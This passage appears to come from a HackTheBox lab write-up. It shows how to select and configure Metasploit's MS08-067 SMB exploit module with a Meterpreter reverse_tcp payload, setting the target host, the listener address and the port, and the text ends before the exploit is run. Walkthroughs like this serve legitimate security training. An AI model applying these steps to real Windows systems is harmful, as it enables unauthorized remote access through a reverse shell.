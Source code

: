 ```bash
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption
```
To choose this module, we use either of the following commands:
```bash
msf6> use 0
## OR
msf6> use exploit/windows/smb/ms08_067_netapi
```

Now that our module has been selected, we'll be seeing the options that we can set using the following command:

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.200    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting

```

We have to set the following options:
- RHOSTS
- LHOST
- LPORT

To set these options, we use the `set` command. `RHOSTS` is the remote host or the victim machine that we'll be attacking. `LHOST` is our IP, since we're doing a HackTheBox machine, we can either type `tun0` which is our interface and metasploit will automatically resolve the interface to our ip OR, we can simply type `ip a tun0` to find our ip address and type it manually. `LPORT` is the port that we'll be listening on for a reverse shell. So, we'll use the following set of commands to set all these:
```bash
msf6 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4
msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST tun0
msf6 exploit(windows/smb/ms08_067_netapi) > set LPORT 1337
```
Setting the port to 1337 will make us leet haxor. xd
